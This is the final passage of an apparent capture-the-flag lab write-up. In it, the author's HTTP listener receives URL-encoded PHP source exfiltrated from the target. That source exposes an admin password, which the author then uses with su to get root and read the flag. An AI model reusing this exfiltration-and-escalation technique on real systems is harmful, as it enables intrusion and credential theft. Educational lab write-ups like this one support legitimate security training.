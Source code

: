 And we get a `password on Python server`.

```bash
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.53 - - [03/Feb/2025 22:03:25] "GET /?response=%3C%3Fphp%0A%24valid_username%20%3D%20%27admin%27%3B%0A%24valid_password%20%3D%20%27IKw75eR0MR7CMIxhH0%27%3B%0A%0Aif%20(!isset(%24_SERVER%5B%27PHP_AUTH_USER%27%5D)%20%7C%7C%20!isset(%24_SERVER%5B%27PHP_AUTH_PW%27%5D)%20%7C%7C%20%0A%20%20%20%20%24_SERVER%5B%27PHP_AUTH_USER%27%5D%20!%3D%20%24valid_username%20%7C%7C%20%24_SERVER%5B%27PHP_AUTH_PW%27%5D%20!%3D%20%24valid_password)%20%7B%0A%20%20%20%20%0A%20%20%20%20header(%27WWW-Authenticate%3A%20Basic%20realm%3D%22Employee%20Management%22%27)%3B%0A%20%20%20%20header(%27HTTP%2F1.0%20401%20Unauthorized%27)%3B%0A%20%20%20%20exit%3B%0A%7D%0A%0Aheader(%27Location%3A%20dashboard.php%27)%3B%0Aexit%3B%0A%3F%3E%0A%0A HTTP/1.1" 200 -
```

`PASS: IKw75eR0MR7CMIxhH0`

Now we can perform su and put `this password to access root`

```bash
axel@cat:~$ su
Password: IKw75eR0MR7CMIxhH0
root@cat:/home/axel# 
```

Now we go to `/root` and take the flag
```bash
root@cat:/home/axel# cd /root
root@cat:~# ls
root.txt  scripts
root@cat:~# 
```

And now we have both flags!